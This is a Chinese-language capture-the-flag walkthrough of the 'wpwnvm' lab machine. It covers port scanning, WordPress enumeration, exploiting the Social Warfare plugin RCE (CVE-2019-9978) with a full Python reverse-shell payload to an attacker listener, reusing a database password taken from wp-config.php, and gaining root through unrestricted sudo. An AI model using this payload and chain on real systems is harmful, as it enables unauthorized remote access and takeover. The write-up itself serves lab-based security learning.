









# wpwnvm
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ sudo nmap -p- 192.168.146.65                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F9:0B:60 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds

└─$ sudo nmap -p22,80 -sV -A 192.168.146.65
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:F9:0B:60 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 192.168.146.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds

```
这个靶机只有一个80和22端口开着, 那么入口就在网页端了
### Web信息枚举

直接访问是一个建设中的页面
<br>
使用dirsearch查看一下可访问的
```
[17:36:12] 200 -  134B  - /index.html
[17:36:21] 200 -   57B  - /robots.txt
[17:36:32] 200 -    7KB - /wordpress/wp-login.php
[17:36:32] 200 -   27KB - /wordpress/
                                          
```


<br>
robots.txt是一个fake的信息...
<br>
但是这是一个wordpress, 那直接上wpscan
<br>
TIP: 在这里我用了wpscan的api, 直接扫描出了可能有关的漏洞
```
i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Comment (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/32085d2d-1235-42b4-baeb-bc43172a4972
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9978
 |      - https://wordpress.org/support/topic/malware-into-new-update/
 |      - https://www.wordfence.com/blog/2019/03/unpatched-zero-day-vulnerability-in-social-warfare-plugin-exploited-in-the-wild/
 |      - https://threatpost.com/wordpress-plugin-removed-after-zero-day-discovered/143051/
 |      - https://twitter.com/warfareplugins/status/1108826025188909057
 |      - https://www.wordfence.com/blog/2019/03/recent-social-warfare-vulnerability-allowed-remote-code-execution/
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
 |      - https://www.webarxsecurity.com/social-warfare-vulnerability/
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.146.65/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt

```

尝试枚举用户
```
i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
在上面使用wpscan的时候, 有一个100%命中的插件, social warfare, 那我们用searchspolit试试

竟然是一个RCE, 拉下来查看一下代码

path在wp-admin下面的post处, 那我们就直接根据漏洞的path来获取我们的shell

```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.146.50",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
在本地起监听端口, 同时使用python3去起一个http服务
```
└─$ sudo python3 -m http.server 80                                   
[sudo] password for aaron: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.65] 49886

```

然后我们再用curl去访问本地, 这样我们就突破边界拿到了靶机的用户权限

## 提升权限
### 查看wordpress文件
```
www-data@wpwn:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```
可以看到wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
然后我们来利用python获取可交互式的shell, 尝试使用这个密码登录另一个用户


<br>
登录上来了!

<br>
查看sudo -l, 发现这个用户可以执行所有的sudo权限.
<br>



那就直接sudo su


<br>
提权成功
